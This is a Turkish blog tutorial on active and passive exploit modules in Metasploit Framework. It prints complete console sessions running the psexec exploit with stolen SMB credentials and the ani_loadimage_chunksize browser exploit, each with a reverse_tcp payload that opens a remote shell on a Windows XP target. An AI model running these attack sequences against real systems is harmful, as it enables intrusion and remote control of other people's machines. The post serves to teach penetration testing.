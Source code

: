 ```yaml
---
draft: false

title:  'MSF İçinde Exploit Çeşitleri?'
date: '2017-05-13T12:34:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Metasploit Framework içerisinde tüm exploit modülleri\_aktif\_ve\_pasif\_olarak gruplandırılırlar. 
Aktif Exploit 
Aktif exploitler, belirli bir hedef üzerinde çalışacak ve işlem tamamlanana kadar çalışmaya devam edecektir. Herhangi bir hata ile karşılaştığında çalışmayı durdururlar." 
 
url:  /tr/msf-icinde-exploit-cesitleri/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



Metasploit Framework içerisinde tüm exploit modülleri **aktif** ve **pasif** olarak gruplandırılırlar.



## Aktif Exploit



Aktif exploitler, belirli bir hedef üzerinde çalışacak ve işlem tamamlanana kadar çalışmaya devam edecektir. Herhangi bir hata ile karşılaştığında çalışmayı durdururlar.



Örneğin, Brute-force modülü hedef bilgisayarda bir shell komut satırı açılana kadar çalışır ve işlemi bitince durur. İşlemlerinin tamamlanması uzun zaman alabileceğinden `-j` parametresi kullanılarak arka plana gönderilebilirler.



Aşağıdaki örnekte, ms08_067_netapi explotinin çalışmaya başlatılıp arka plana gönderildiğini görebilirsiniz.


```bash
msf exploit**(**ms08_067_netapi**)** **>** exploit -j
**[*********]** Exploit running as background job.
msf exploit**(**ms08_067_netapi**)** **>**
```



**Örnek**



Bu örnekte, önceden keşif ile bilgileri elde edilen bir hedef bilgisayarın (192.168.1.100) gerekli değişkenleri ayarlanması ve çalışmaya başlaması görülmektedir. Hedef bilgisayarda shell açmak için psexec exploiti ve içerisinde reverse_tcp payload modülü kullanılmaktadır.


```bash
msf **>** use exploit/windows/smb/psexec
msf exploit**(**psexec**)** **>** set RHOST 192.168.1.100
RHOST **=>** 192.168.1.100
msf exploit**(**psexec**)** **>** set PAYLOAD windows/shell/reverse_tcp
PAYLOAD **=>** windows/shell/reverse_tcp
msf exploit**(**psexec**)** **>** set LHOST 192.168.1.5
LHOST **=>** 192.168.1.5
msf exploit**(**psexec**)** **>** set LPORT 4444
LPORT **=>** 4444
msf exploit**(**psexec**)** **>** set SMBUSER victim
SMBUSER **=>** victim
msf exploit**(**psexec**)** **>** set SMBPASS s3cr3t
SMBPASS **=>** s3cr3t
msf exploit**(**psexec**)** **>** exploit

**[*********]** Connecting to the server...
**[*********]** Started reverse handler
**[*********]** Authenticating as user 'victim'...
**[*********]** Uploading payload...
**[*********]** Created \hikmEeEM.exe...
**[*********]** Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
**[*********]** Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
**[*********]** Obtaining a service manager handle...
**[*********]** Creating a new service **(**ciWyCVEp - "MXAVZsCqfRtZwScLdexnD"**)**...
**[*********]** Closing service handle...
**[*********]** Opening service...
**[*********]** Starting the service...
**[*********]** Removing the service...
**[*********]** Closing service handle...
**[*********]** Deleting \hikmEeEM.exe...
**[*********]** Sending stage **(**240 bytes**)**
**[*********]** Command shell session 1 opened **(**192.168.1.5:4444 -> 192.168.1.100:1073**)**

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```



## Pasif Exploit



Pasif Exploitler, yerel bilgisayarda (kendi bilgisayarımız) pasif olarak çalışır ve dinlemede kalırlar. Hedef bilgisayarın bir şekilde yerel bilgisayara bağlanmasını beklerler.



Pasif exploitler neredeyse her durumda Web tarayıcı, FTP vb. istemciler üzerine odaklanırlar. Eposta ile gönderilen dosyalar içerisinden bağlantılarda da kullanılabilirler. Pasif exploit çalıştığında beklemeye başlar. Ne zaman bir kullanıcı sitedeki linke tıklar veya bir işlem yapar, işte o zaman dinlemedeki pasif exploit sinyali alır ve hedefte bir **shell** açar.



Arka planda çalışan ve dinleme yapan exploitlerin listesini `sessions` komutuna `-l` parametresi vererek görebilirsiniz. Listeden istediğiniz `ID` numaralı işleme gitmek için `-i` parametresini kullanabilirsiniz.


```bash
msf exploit**(**ani_loadimage_chunksize**)** **>** sessions -l

Active sessions
**===============**

  Id  Description  Tunnel
  --  -----------  ------
  1   Meterpreter  192.168.1.5:52647 -> 192.168.1.100:4444

msf exploit**(**ani_loadimage_chunksize**)** **>** sessions -i 1
**[*********]** Starting interaction with 1...

meterpreter **>**
```



**Örnek**



Aşağıdaki örnekte, loadimage_chunksize exploiti ve reverse_tcp payload u kullanılarak bir kullanıcının Web sayfasına girmesi beklenmeye başlanmaktadır. `LHOST` değişkeni yerelde dinleme yapacak bilgisayar IP adresini, `LPORT` ise yerel bilgisayarda dinlenme yapacak port numarasını ifade eder.


```bash
msf **>** use exploit/windows/browser/ani_loadimage_chunksize
msf exploit**(**ani_loadimage_chunksize**)** **>** set URIPATH /
URIPATH **=>** /
msf exploit**(**ani_loadimage_chunksize**)** **>** set PAYLOAD windows/shell/reverse_tcp
PAYLOAD **=>** windows/shell/reverse_tcp
msf exploit**(**ani_loadimage_chunksize**)** **>** set LHOST 192.168.1.5
LHOST **=>** 192.168.1.5
msf exploit**(**ani_loadimage_chunksize**)** **>** set LPORT 4444
LPORT **=>** 4444
msf exploit**(**ani_loadimage_chunksize**)** **>** exploit
**[*********]** Exploit running as background job.

**[*********]** Started reverse handler
**[*********]** Using URL: <a href="http://0.0.0.0:8080/">http://0.0.0.0:8080/</a>
**[*********]**  Local IP: <a href="http://192.168.1.5:8080/">http://192.168.1.5:8080/</a>
**[*********]** Server started.
msf exploit**(**ani_loadimage_chunksize**)** **>**
**[*********]** Attempting to exploit ani_loadimage_chunksize
**[*********]** Sending HTML page to 192.168.1.100:1077...
**[*********]** Attempting to exploit ani_loadimage_chunksize
**[*********]** Sending Windows ANI LoadAniIcon**()** Chunk Size Stack Overflow **(**HTTP**)** to 192.168.1.100:1077...
**[*********]** Sending stage **(**240 bytes**)**
**[*********]** Command shell session 2 opened **(**192.168.1.5:4444 -> 192.168.1.100:1078**)**

msf exploit**(**ani_loadimage_chunksize**)** **>** sessions -i 2
**[*********]** Starting interaction with 2...

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop>
```



Anlatılmasını istediğiniz diğer başlıkları bize iletebilirsiniz.



## Video Anlatım


{{< youtube 6liQEKnvzhQE >}}
